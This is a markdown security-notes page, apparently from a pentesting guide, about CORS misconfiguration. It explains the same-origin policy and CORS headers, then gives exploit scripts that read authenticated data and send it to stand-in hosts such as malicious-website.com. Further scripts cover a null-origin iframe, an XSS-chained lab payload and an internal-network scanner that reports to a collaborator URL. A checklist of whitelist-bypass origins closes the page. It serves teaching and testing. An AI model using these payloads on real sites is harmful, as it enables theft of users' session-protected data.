

# Cross-origin resource sharing (CORS)

Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain. It extends and adds flexibility to the same-origin policy (SOP). However, it also provides potential for cross-domain attacks, if a website's CORS policy is poorly configured and implemented. CORS is not a protection against cross-origin attacks such as cross-site request forgery (CSRF).



## Theory

### Same Origin Policy (SOP)

The same-origin policy is a web browser security mechanism that aims to prevent websites from attacking each other.

The same-origin policy is a critical security mechanism that restricts how a document or script loaded by one origin can interact with a resource from another origin. An origin consists of a URI scheme, domain and port number. For example, consider the following URL:

```
http://normal-website.com/example/example.html
```

This uses the scheme http, the domain normal-website.com, and the port number 80.

Scripts executed from pages with an `about:blank` or `javascript:` URL inherit the origin of the document containing that URL, since these types of URLs do not contain information about an origin server. `data:` URLs get a new, empty, security context. `file:` URLs are implementation dependant but in general browsers treat these URLs as totally unique or opaque origins.

The same-origin policy generally controls the access that JavaScript code has to content that is loaded cross-domain. Cross-origin loading of page resources is generally permitted. Here are some examples of resources that may be embedded cross-origin:

* JavaScript with `<script src="…"></script>`. Error details for syntax errors are only available for same-origin scripts.
* CSS applied with `<link rel="stylesheet" href="…">`. Due to the relaxed syntax rules of CSS, cross-origin CSS requires a correct Content-Type header. Browsers block stylesheet loads if it is a cross-origin load where the MIME type is incorrect and the resource does not start with a valid CSS construct.
* Images displayed by ``.
* Media played by `<video>` and `<audio>`.
* External resources embedded with `<object>` and `<embed>`.
* Fonts applied with `@font-face`. Some browsers allow cross-origin fonts, others require same-origin.
* Anything embedded by `<iframe>`. Sites can use the X-Frame-Options header to prevent cross-origin framing.

There are various exceptions to the same-origin policy:

* Some objects are writable but not readable cross-domain, such as the location object or the location.href property from iframes or new windows.
* Some objects are readable but not writable cross-domain, such as the length property of the window object (which stores the number of frames being used on the page) and the closed property.
* The replace function can generally be called cross-domain on the location object.
* You can call certain functions cross-domain. For example, you can call the functions close, blur and focus on a new window. The postMessage function can also be called on iframes and new windows in order to send messages from one domain to another.

### Relaxation of the SOP; introducing CORS

The same-origin policy is very restrictive and consequently various approaches have been devised to circumvent the constraints. Many websites interact with subdomains or third-party sites in a way that requires full cross-origin access. A controlled relaxation of the same-origin policy is possible using cross-origin resource sharing (CORS).

CORS can be configured using the headers of the server's response. For example:

```
HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Credentials: true
```

The browser will allow code running on normal-website.com to access the response because the origin matches the `Access-Control-Allow-Origin` header. Moreover the browser will permit the requesting website to read the response, because the `Access-Control-Allow-Credentials` response header is set to true

The wildcard cannot be used with any other value, the following example is invalid:

```
Access-Control-Allow-Origin: https://*.normal-website.com
```

Also it cannot be used in combination with `Access-Control-Allow-Credentials: true`

Given these constraints, some web servers dynamically create Access-Control-Allow-Origin headers based upon the client-specified origin. This is a workaround for CORS constraints that usually implies its own security fails.

### Impact

### Basic Howto

Let's asume that a vulnerable server receives this request:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

It then responds with:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
[...]
```

These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

This means that absolutely any domain can access resources from the vulnerable domain

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

There are some situations where null origin is whitelisted.  This can be exploited using a sandboxed iframe cross-origin request of the form:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>">
</iframe>
```

Also it is possible for a server to allow cors to a different scheme, for example http without actively publishing any service using this protocol.

In the following example a XSS vulnerability was exploited in an insecure http subdomain and then the contents were exfiltrated to a attacker-controlled application

```javascript
document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
```

As previously stated, it is possible to find CORS issues in internal networks, it is complex to exploit because it is needed to perform some kind of enumeration

```html
<script>
var q = [], collaboratorURL = 'http://$collaboratorPayload';

for(i=1;i<=255;i++) {
	q.push(function(url) {
		return function(wait) {
			fetchUrl(url, wait);
		}
	}('http://192.168.0.'+i+':8080'));
}

for(i=1;i<=20;i++){
	if(q.length)q.shift()(i*100);
}

function fetchUrl(url, wait) {
	var controller = new AbortController(), signal = controller.signal;
	fetch(url, {signal}).then(r => r.text().then(text => {
		location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
	}))
	.catch(e => {
		if(q.length) {
			q.shift()(wait);
		}
	});
	setTimeout(x => {
		controller.abort();
		if(q.length) {
			q.shift()(wait);
		}
	}, wait);
}
</script>
```

### Delivering the exploit

## Checklist

- [ ] Use OPTIONS method to check if the server shows CORS info
    ```
    HTTP/1.1 204 No Content
    ...
    Access-Control-Allow-Origin: https://normal-website.com
    Access-Control-Allow-Methods: PUT, POST, OPTIONS
    Access-Control-Allow-Headers: Special-Request-Header
    Access-Control-Allow-Credentials: true
    Access-Control-Max-Age: 240
    ```
- [ ] Check if origin is reflected
- [ ] Check if origin has whitelist values that can be bypassed
    ```bash
    # Website checks for normal-website.com$
    hackersnormal-website.com
    # Website checks for ^normal-website.com
    normal-website.com.evil-user.net
    ```
- [ ] Whitelisted null origin (Use a sandboxed iframe to exploit it)
- [ ] Check for XSS vulnerabilities in allowed subdomains
- [ ] Check for intranet applications with vulnerable CORS